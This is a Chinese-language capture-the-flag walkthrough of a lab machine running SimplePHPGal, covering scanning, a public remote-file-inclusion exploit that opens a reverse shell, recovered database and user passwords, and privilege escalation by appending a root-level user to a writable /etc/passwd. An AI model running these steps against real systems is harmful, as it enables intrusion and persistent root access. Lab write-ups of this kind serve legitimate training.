## nmap



## web

### dirsearch

扫目录挨个查看后没有有用信息，版本号和cms也在`index.php`直接就有，也不用查看`README.txt`





### exploit-get_shell

[beauknowstech/SimplePHPGal-RCE.py](https://github.com/beauknowstech/SimplePHPGal-RCE.py)根据版本去搜索相关漏洞，该版本存在远程文件包含漏洞

使用该exp时需要注意，靶机对防火墙策略做了更改，只允许一部分端口出防火墙，该exp使用的是反向连接，设置监听端口时需要修改为靶机开放的其他端口，使用示例的4444端口会失败





## get shell-apache

当前用户是`apache`用户，需要先提权到`michael`用户再提权到`root`



在网站目录下有数据库连接账号密码



```
MalapropDoffUtilize1337
SimplePHPGal
```

可以使用mysql连接到数据库

```
mysql -h127.0.0.1 -P3306 -uroot -p
```





```
U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==:SG9ja1N5ZG5leUNlcnRpZnkxMjM=
```

直接使用该密码登录是不对的，密码还经过bash64加密了，解密之后才是正确密码：`HockSydneyCertify123`



## 提权

寻找可写目录

```
find / -writable 2>/dev/null
```



其中/etc/passwd可写，可在其中加入一个用户

```
需要先加密密码
openssl passwd w00t

echo "root2:h2oyZHD64vy0.:0:0:root:/root:/bin/bash" >> /etc/passwd

su root2
Password: w00t
```

